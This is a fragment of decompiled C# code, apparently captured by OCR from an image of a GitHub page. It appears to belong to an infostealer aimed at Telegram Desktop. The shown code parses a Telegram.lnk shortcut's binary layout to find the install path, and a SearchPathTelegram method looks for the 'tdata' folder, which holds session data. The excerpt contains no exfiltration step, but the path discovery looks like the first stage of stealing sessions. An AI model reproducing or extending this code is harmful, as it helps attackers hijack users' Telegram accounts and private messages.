 ```csharp
					foreach (string text4 in Directory.GetFiles(text3))
					{
						string fileName = Path.GetFileName(text4);
						bool flag2 = fileName == "Telegram.lnk";
						if (flag2)
						{
							string text5 = text3 + "\\Telegram.lnk";
							FileInfo fileInfo2 = new FileInfo(text5);
							try
							{
								using (FileStream fileStream2 = File.Open(fileInfo2.FullName, FileMode.Open, FileAccess.Read))
								{
									using (BinaryReader binaryReader2 = new BinaryReader(fileStream2))
									{
										fileStream2.Seek(20L, SeekOrigin.Begin);
										uint num5 = binaryReader2.ReadUInt32();
										bool flag3 = (num5 & 1U) == 1U;
										if (flag3)
										{
											fileStream2.Seek(76L, SeekOrigin.Begin);
											ushort num6 = binaryReader2.ReadUInt16();
											fileStream2.Seek((long)((ulong)num6), SeekOrigin.Current);
										}
										long position2 = fileStream2.Position;
										uint num7 = binaryReader2.ReadUInt32();
										fileStream2.Seek(12L, SeekOrigin.Current);
										uint num8 = binaryReader2.ReadUInt32();
										fileStream2.Seek(position2 + (long)((ulong)num8), SeekOrigin.Begin);
										return new string(binaryReader2.ReadChars((int)(position2 + (long)((ulong)num7) - fileStream2.Position)));
									}
								}
							}
							catch
							{
								return "Not Found!";
							}
						}
					}
				}
				text2 = "Not Found!";
			}
			return text2;
		}

		// Token: 0x06000010 RID: 16 RVA: 0x00002DC4 File Offset: 0x00000FC4
		private static string SearchPathTelegram()
		{
			bool flag = Directory.Exists(Variables.roamingappdata + "\\Telegram Desktop\\tdata");
			string text;
			if (flag)
			{
				text = Variables.roamingappdata + "\\Telegram Desktop\\tdata";
			}
			else
			{
				bool flag2 = Telegram.GetPathByLnk() != "Not Found!";
				if (flag2)
				{
```